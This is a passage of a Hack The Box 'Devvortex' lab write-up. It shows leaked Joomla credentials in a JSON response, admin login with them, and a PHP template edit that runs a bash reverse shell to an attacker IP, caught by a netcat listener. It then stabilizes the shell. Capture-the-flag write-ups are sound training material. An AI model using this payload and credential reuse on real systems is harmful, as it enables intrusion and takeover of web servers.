 ```json
        "host": "localhost",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "user": "lewis",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "P4ntherg0t1n5r3c0n##",
        "id": 224
      }
    },
   ...
}
```

First thing I tried, is to SSH into the server with those, but my attempt failed. 
After all, these credentials enabled Joomla Administrator dashboard access:
![](../../../assets/htb/devvortex/dev.devvortex.admin-dashboard.page.png)

From here, I knew, executing PHP code is easy and requires template editing. 
I went to **System** -> **Templates** -> **Administrator Templates** -> **index.php**
![](../../../assets/htb/devvortex/dev.devvortex.admin-templates-edit.page.png)

PHP reverse shell execution through template editing:
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'");
```

Establishing a connection using netcat:
```bash
nc -l 4444
```
![](../../../assets/htb/devvortex/stabilize-rev-shell.png)

Stabilizing the shell:
```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice, and then enter:
export TERM=xterm
```

Now, I had a properly working shell, but my current user couldn't read the user flag:
```
www-data@devvortex:~/dev.devvortex.htb/administrator$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
